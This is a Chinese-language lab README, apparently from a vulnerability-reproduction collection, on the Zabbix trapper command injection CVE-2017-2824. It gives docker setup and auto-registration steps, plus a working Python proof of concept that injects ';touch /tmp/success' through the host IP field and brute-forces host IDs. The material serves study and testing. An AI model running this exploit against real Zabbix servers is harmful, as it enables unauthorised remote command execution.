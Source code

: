 # Zabbix Server Active Proxy Trapper 命令注入漏洞（CVE-2017-2824）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。

在Zabbix版本2.0.x 2.0.21之前，2.2.x 2.2.18之前，2.4.x，3.0.x 3.0.9之前，或者3.2.x 3.2.5之前，Zabbix的server-side trapper命令功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325
- https://support.zabbix.com/browse/ZBX-12075

## 环境搭建

执行如下命令启动一个完整的Zabbix 3.0.3环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker compose up -d
```

命令执行后，执行`docker compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

![](1.png)

第三个标签页，创建一个Operation，type是"Add Host"：

![](2.png)

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

这个POC比较初级，请多执行几次，当查看到如下结果时，则说明命令执行成功：

![](3.png)

进入server容器，可见`/tmp/success`已成功创建：

![](4.png)

有兴趣的同学可以对这个POC进行改进，提交Pull Request。
